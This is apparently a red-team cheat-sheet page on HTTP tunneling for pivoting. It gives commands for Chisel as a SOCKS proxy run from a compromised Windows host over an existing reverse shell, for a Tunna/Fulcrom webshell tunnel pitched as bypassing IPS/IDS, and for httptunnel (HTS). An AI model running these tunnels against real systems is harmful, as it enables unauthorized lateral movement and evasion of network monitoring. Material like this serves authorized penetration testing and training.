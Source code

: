 # ⭕ HTTP Tunneling

## <mark style="color:red;">Chisel</mark>

{% embed url="https://github.com/jpillora/chisel" %}

Chisel is an open-source tunneling software written in Golang. <mark style="color:green;">**It works by setting up a TCP tunnel and performing data transfers over HTTP, while securing it with SSH.**</mark> Chisel contains both client and server components and creates a SOCKS-compliant proxy.

{% hint style="danger" %}
In this technique, the compiled Chisel binary will be dropped on the compromised system,

so this is not an OPSEC-safe technique.
{% endhint %}

```
sudo apt install golang -y
git clone https://github.com/jpillora/chisel.git
cd chisel/
go build
```

We can cross-compile chisel for other operating systems and architectures with the Golang compiler

```
env GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

Now we can use chisel to set up the reverse tunnel.

start chisel in server mode, specify the listen port with -p and --socks5 to specify the SOCKS proxy mode.

```
./chisel server -p 8080 --socks5
```

configure a SOCKS proxy server with the Kali SSH server.

enable password authentication by uncommenting the appropriate line in the `sshd_config` file. After the service is started onnect to it with ssh and supply -N to ensure commands are not executed but merely forwarded and -D to configure a SOCKS proxy.specify the IP and port to configure the SOCKS proxy.

```
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config
sudo systemctl start ssh.service
ssh -N -D 0.0.0.0:1080 localhost
```

transfer the compiled Windows version of chisel to the Windows machine through the existing reverse shell and run it:

```
chisel.exe client 192.168.119.120:8080 socks
```

use the tunnel:

```
sudo proxychains rdesktop 192.168.120.10
```

## <mark style="color:red;">Tunna / Fulcrom</mark>

```
# Everything is through HTTP
# Bypass some IPS/IDS

# First step is to deploy webshell on the target
# Some are available with the tool (but not good)
# Can be hard to use

# Then on the attacker machine
$ python2 proxy.py -u http://192.168.2.105:8080/conn.php -l 7777 -r 80 -a 10.42.42.2 -v
```

## <mark style="color:red;">HTS</mark>

```
apt  install httptunnel
hts --forward-port localhost:8888 1234 # server side
 htc --forward-port 8080 10.11.0.128:1234 # client side
```
